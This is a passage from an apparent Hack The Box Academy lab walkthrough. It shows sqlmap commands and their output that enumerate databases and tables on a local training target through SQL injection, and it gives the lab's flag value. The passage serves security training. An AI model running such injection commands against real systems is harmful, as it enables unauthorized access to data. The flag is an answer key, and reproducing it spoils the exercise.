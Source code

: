```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --dbs --threads=10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

available databases [3]:
[*] db
[*] information_schema
[*] performance_schema

<SNIP>
```

Subsequently, students need to enumerate the table names of the `db` database, finding `flag` and `users`:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --tables -D db --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-r0xvavhkst]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --tables -D db --threads=10
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.12#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: db
[2 tables]
+-------+
| flag  |
| users |
+-------+

<SNIP>
```

When dumping the `flag` table, students will attain the flag `HTB{1251ef9b34342f62db6044190f5b83cd}`:
